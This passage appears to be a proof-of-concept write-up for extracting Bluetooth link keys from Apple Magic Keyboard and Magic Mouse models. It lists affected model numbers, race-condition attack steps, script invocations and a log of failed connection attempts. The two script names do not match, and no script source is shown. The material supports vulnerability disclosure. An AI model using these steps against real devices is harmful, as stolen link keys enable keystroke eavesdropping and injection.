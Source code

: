 | Product Name | Model Number |
|-|-|
| Magic Keyboard | A2450 |
| Magic Keyboard with Touch ID | A2449 |
| Magic Keyboard with Numeric Keypad | A1843 |
| Magic Keyboard with Touch ID and Numeric Keypad | A2520 |
| Magic Mouse | A1657 |

#### Starting State

- Magic Keyboard is powered on and plugged into the Mac

#### Running the PoC

Plug the Magic Keyboard into the Linux computer with a Lightning-to-USB cable, then run the script. Once the script is running, unplug the keyboard from the Mac.

When the keyboard is unplugged, there is a race to connect to the keyboard between the attacker machine and the Mac.

The PoC will typically connect to the Magic Keyboard either ~5 or ~25 seconds after the keyboard is unplugged from the Mac. Sometimes the Mac will win the race, and when it does, the PoC will not complete.

```
./read-link-key-lightning.py <Magic-Keyboard-BT-Address>
```

#### Invocation

```
./read-link-key-bluetooth.py 1c:57:dc:88:55:02
```

#### Output

```
[2024-01-07 13:09:59.311] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:00.313] ERROR connecting on port 17: timed out
[2024-01-07 13:10:00.314] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:00.316] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:00.318] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:01.359] ERROR connecting on port 17: timed out
[2024-01-07 13:10:01.361] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:01.362] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:01.364] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:02.407] ERROR connecting on port 17: timed out
[2024-01-07 13:10:02.408] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:02.410] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:02.411] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:03.448] ERROR connecting on port 17: timed out
[2024-01-07 13:10:03.449] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:03.451] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:03.452] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:04.512] ERROR connecting on port 17: timed out
[2024-01-07 13:10:04.513] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:04.515] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:04.516] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:05.568] ERROR connecting on port 17: timed out
[2024-01-07 13:10:05.569] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:05.638] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:05.640] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:06.680] ERROR connecting on port 17: timed out
```